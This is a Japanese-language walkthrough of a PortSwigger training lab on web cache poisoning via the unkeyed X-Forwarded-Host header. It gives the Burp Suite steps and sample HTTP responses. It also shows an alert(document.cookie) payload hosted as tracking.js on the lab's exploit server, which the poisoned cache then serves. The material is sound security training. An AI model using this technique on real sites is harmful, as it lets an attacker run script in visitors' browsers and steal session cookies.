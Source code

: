 # キーのないヘッダーによる Web キャッシュ ポイズニング

以下のハッキングラボを実施します  
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header  
このラボは、キーのないヘッダーからの入力を安全でない方法で処理するため、Web キャッシュ ポイズニング に対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. GET / HTTP/2 　リクエストを send to repeater します
- 4. 任意に存在しないパラメータを渡して、2 回送信します

```
GET /a=1
```

1 回目の送信結果

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=r1Zyb1SCQ2QCQCPYMYcYKgCCvcBtC3cP; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length:
```

2 回目の送信結果

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 20
X-Cache: hit
Content-Length: 10983
```

- 5. 1 回目と 2 回目でヘッダーに異なる X-Forwarded-Host を付加して、同じパラメータを送信します。すると 2 回目のレスポンスで X-Cache: hit が得られます。

```
X-Forwarded-Host: example.com
```

- 6. エクスプロイトサーバに移動します
- 7. ファイル名を/exploit から、ページのソース上から確認できる/resources/js/tracking.js に変更します
- 8. ペイロードを以下のように入力します

```
alert(document.cookie)
```

- 8. 保存ボタンを押します
- 9. Repeater から GET / リクエストに次のヘッダーを付けて送信します

```
X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```

- 10. 上記リクエストでキャッシュが作られているので生存期間である 30 秒以内にブラウザをリロードするとスクリプトが実行されます
